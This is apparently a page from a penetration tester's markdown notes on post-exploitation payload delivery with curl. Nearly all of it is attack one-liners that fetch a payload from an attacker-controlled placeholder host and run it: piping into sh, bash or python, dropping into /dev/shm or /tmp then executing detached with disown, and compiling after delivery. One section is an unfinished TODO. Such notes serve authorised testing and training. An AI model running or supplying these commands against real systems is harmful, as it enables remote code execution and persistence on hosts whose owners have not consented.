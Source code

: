 # cURL

## 01 - Fileless Code Execution

```
$ curl http[s]://<IP>/payload.sh | sh

$ curl http[s]://<IP>/payload.sh | bash

$ curl http[s]://<IP>/payload.py | python
```

## 02 - Dropping On Memory

> [!INFO] Got Permission Denied!
> If you get a `Permission denied` error while executing it in `/dev/shm/`. Check the [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x00 - Discovery/Desktop/Linux/Host/0xL - Operating System/Manual/Living off the Land#^017cc1|mounted drives]] if `noexec` is configured. Otherwise execute it with a [[#01 - Fileless Code Execution|fileless]] method.

Download payload and execute it.

```
$ curl -o /dev/shm/payload http[s]://<IP>/payload && chmod +x /dev/shm/payload && /dev/shm/payload & disown
```

## 03 - Dropping On Disk

Download payload and execute it.

```
$ curl -o /tmp/payload http[s]://<IP>/payload && chmod +x /tmp/payload && /tmp/payload & disown
```

## 04 - Compiled After Delivery

TODO: Fill this info

```
$ gcc -o payload payload.c && payload & disown
```

---
## References

### GTFOBins

- [GTFOBins: curl](https://gtfobins.github.io/gtfobins/curl/)

### GTFOArgs

- [GTFOArgs: curl](https://gtfoargs.github.io/gtfoargs/curl/)